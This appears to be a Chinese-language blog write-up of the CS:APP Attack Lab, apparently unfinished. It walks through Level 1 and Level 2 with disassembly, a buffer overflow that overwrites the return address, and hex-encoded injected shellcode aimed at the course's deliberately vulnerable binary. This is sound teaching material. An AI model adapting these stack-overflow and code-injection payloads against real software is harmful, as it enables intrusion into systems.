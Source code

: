 ```yaml
---
layout: post
title:  "CS:APP Attack Bomb"
categories: Labs
tags: [reverse engineering, disassembling, code injection]
toc: true
--- 
```

There is some of the same fitness in a man's building his own house that there is in a bird's building its own nest. 
{: .message }

利用缓冲区溢出，完成代码注入与面向返回指令的攻击，深化理解栈机制。

使用 ctarget/rtarget 时，添加 -q 指令避免向服务器请求打分。

总体上有五个实验阶段。

## Level 1

目标是通过缓冲区溢出，使test函数调用getbuf函数后，返回到touch1函数开始处。
{% highlight cpp %}
void test()
{
 int val;
 val = getbuf();
 printf("No exploit. Getbuf returned 0x%x\n", val);
}
{% endhighlight %}

经过 `objdump -d ctarget` 后节选test汇编代码，
{% highlight nasm %}
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
{% endhighlight %}

需要将 401976 地址替换成 touch1 开始地址 4017c0 ，而在函数 getbuf 中栈空间为缓冲区预留了 0x28(40) 个字节，
{% highlight nasm %}
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq 
  4017be:	90                   	nop
  4017bf:	90                   	nop
{% endhighlight %}

所以只需要溢出 40 个字节替换返回地址即可，勿忘输入字符串会额外添加 terminator 且小端编码，
> X X .. X c0 17 40

## Level 2

目的是通过缓冲区溢出，使test函数调用getbuf函数后，返回到touch2函数开始处，并以指定数值作为参数，为此需要注入代码。

注入指令代码，
{% highlight nasm %}
 # Level 2 injection code
	movq $0x59b997fa, %rdi	# use cookie value as 1st parameter of touch2
	push $0x4017ec		# push touch2 address
	retq			# return to touch2
{% endhighlight %}

注意，指令中用的是立即数，小心编写指令。

溢出两个地址，会产生段错误，因为原先第二个位置的值被覆盖了，其不是地址值。

题目要求使用 ret 转移控制，可以通过指令压入 touch2 开始地址。

注入代码在栈上，通过 GDB 调试命令
`
print /x $rsp
`
可以得到buf开始地址为 0x5561dc78 ，大小为 40 个字节。注入代码就放在 buf 中，需要注意栈是向下(向地址0)处增长的，所以代码直接正放即可，

这里需要将指令转为十六进制，再转为 ASCII，可以用 gcc 与 objdump 转换十六进制，用 Lab 提供的工具 hex2raw 转ASCII码。

十六进制表示为，
{% highlight nasm %}
48 c7 c7 fa 97 b9 59 /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00 /* pushq  $0x4017ec */
c3 /* retq */
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 /* 27 bytes */
78 dc 61 55 00 00 00 00 /* buf start address 0x5561dc78 */
{% endhighlight %}


待续。

{% highlight nasm %}

{% endhighlight %}

## Reference
1. [CS:APP Lab Assignments](http://csapp.cs.cmu.edu/3e/labs.html)
2. [attack lab readme](http://csapp.cs.cmu.edu/3e/README-attacklab)
3. [attack lab writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf)
4. [Beej's Quick Guide to GDB](http://beej.us/guide/bggdb/)
